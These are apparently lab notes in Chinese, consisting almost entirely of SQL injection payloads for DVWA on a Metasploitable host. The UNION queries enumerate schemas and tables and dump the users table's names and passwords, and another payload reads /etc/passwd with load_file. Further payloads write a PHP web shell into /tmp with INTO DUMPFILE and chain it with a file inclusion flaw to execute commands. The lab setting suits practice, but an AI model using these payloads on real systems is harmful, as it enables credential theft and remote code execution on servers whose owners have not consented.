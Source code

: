 * 查询所有库所有表
``` 
' union select table_name,table_schema from information_schema.tables--+

```
* 统计每库中表的数量
``` 
' UNION select table_schema,count(*) FROM information_Schema.tables group by table_schema -- 

```  
* DVWA 中的表名
  
``` 
' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'--+

```


* user 表中的所有列（user_id?first_name?last_name?user?password?avatar）
``` 
' union select table_name,column_name from information_schema.columns where table_schema='dvwa' and table_name='users'--+

```  
* 查询 user、password列的内容
``` 
' union select user,password from dvwa.users--+
' union select user,password from users--+
' union select null, concat(user,0x3a,password) from users--+

```  
### 文件操作
* 读取文件
``` 
' union SELECT null, load_file('/etc/passwd')--+

```  

* 写入文件
``` 
' union select null,"<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE 'a.php'-- 
```  

* 结合 sql 注入文件漏洞和文件包含漏洞
``` 
# 查看可知文件被写入 /var/lib/mysql/dvwa 路径
root@metasploitable:/var/lib/mysql/dvwa# cat a.php 
<?php passthru($_GET['cmd']); ?>

# 但是如此写入的文件并不可以读取，因为权限是 mysql，其他用户（www-data）不可读
root@metasploitable:/var/lib/mysql# ll -d dvwa/
drwx------ 2 mysql mysql 4096 Mar 22 11:08 dvwa/

# 可以将文件写入 /tmp 目录
root@metasploitable:~# ll -d /tmp
drwxrwxrwt 6 root root 4096 Mar 22 09:57 /tmp

# 写入文件
'%20union%20select%20null,"<?php%20passthru($_GET['cmd']);%20?>"%20INTO%20DUMPFILE%20'/tmp/a.php'--%20

```
``` 
# 分析以上可知，文件被写入 /tmp/a.php
root@metasploitable:/tmp# cat a.php 
<?php passthru($_GET['cmd']); ?>
# 使用文件包含漏洞
http://10.10.10.132/dvwa/vulnerabilities/fi/?page=/tmp/a.php&cmd=id
```